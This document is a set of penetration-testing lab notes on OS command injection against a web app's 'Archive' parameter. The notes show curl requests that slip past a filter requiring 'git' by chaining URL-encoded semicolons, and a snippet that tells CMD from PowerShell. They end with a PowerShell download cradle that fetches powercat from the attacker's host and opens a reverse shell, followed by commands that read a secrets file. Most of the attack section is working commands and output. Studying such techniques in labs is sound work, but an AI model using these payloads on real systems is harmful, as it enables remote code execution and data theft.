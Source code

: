 
- Web applications should always offer specific APIs or functionalities that use prepared commands for the interaction with the system
- Prepared commands provide a set of functions to the underlying system that cannot be changed by user input.

- Sometimes a web application needs to address a multitude of different cases, and a set of predefined functions can be too inflexible.
	- In these cases, web developers often tend to directly accept user input, then sanitize it.
	- This means that user input is filtered for any command sequences that might try to change the application's behavior for malicious purposes.

DON'T FORGET
- Stringing commands together might require a couple of different options
- There's more ways than just **;**
- **&&**, etc


Testing form submissions using Burp will help us to understand how requests are formatted.  Check URL in browser to see where request is sent
![](cmdi_archive.png)
- Here, the cmd is sent via the **Archive** parameter
- Allows us to replace w/ Burp or send our own parameters via **curl**
	- **-X** - Change request type to POST
	- **--data** - Specify the data being sent

```bash
curl -X POST --data 'Archive=ipconfig' http://192.168.193.189:8000/archive
	Command Injection detected. Aborting...%!(EXTRA string=ipconfig)
```
- Sadly this doesn't work.
- Can guess that the filter requires 'git' as part of the parameter

Considering we know that the 'git clone' command will work, we can go from there to see how limited we are
```bash
curl -X POST --data 'Archive=git' http://192.168.193.189:8000/archive
# Successfully shows git help

curl -X POST --data 'Archive=git version' http://192.168.193.189:8000/archive
	Repository successfully cloned with command: git version and output: git version 2.36.1.windows.1
# Success

# Attempt to string commands together w/ ;
curl -X POST --data 'Archive=git version%3Bipconfig' http://192.168.193.189:8000/archive 
	An error occured with execution: exit status 1 and git version 2.36.1.windows.1

# URL encode ;
curl -X POST --data 'Archive=git version%3Bipconfig' http://192.168.193.189:8000/archive
	Repository successfully cloned with command: git version;ipconfig and output: git version 2.36.1.windows.1
	
	Windows IP Configuration
	
	
	Ethernet adapter Ethernet0:
	
	   Connection-specific DNS Suffix  . : 
	   IPv4 Address. . . . . . . . . . . : 192.168.193.189
	   Subnet Mask . . . . . . . . . . . : 255.255.255.0
	   Default Gateway . . . . . . . . . : 192.168.193.254
```

- Given this is a Windows computer, determine whether thing's are run through PowerShell or CMD
- Use this code snippet to determine
```powershell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
```bash
# URL Encode  (Can use Burp's Decoder tab)
(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell

# Send
curl -X POST --data 'Archive=git version%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.193.189:8000/archive
	Repository successfully cloned with command: git version;(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell and output: git version 2.36.1.windows.1
	PowerShell
```

- Knowing the webserver's commands will be executed in PowerShell, we can use Powercat to create a reverse shell
```bash
# Copy Powercat to working directory
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

# Serve
python3 -m http.server 80

# Create a nc listener in another tab
nc -nlvp 4444
```

In order to get a reverse shell using Powercat, we'll need to
1. Use a PowerShell download cradle to load the Powercat function contained in the powercat.ps1 script from our web server.
2. Use the _powercat_ function to create the reverse shell with the following parameters:
	- **-c** - Specify where to connect
	- **-p** - Specify the port
	- **-e** - Execute a program.
```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.45.202/powercat.ps1");powercat -c 192.168.45.202 -p 4444 -e powershell
```

```bash
# URL encode it as well
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.45.202%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.45.202%20-p%204444%20-e%20powershell' http://192.168.193.189:8000/archive
```

```powershell
# in revshell
dir ..\..\Desktop
type ..\..\Desktop\secrets.txt
```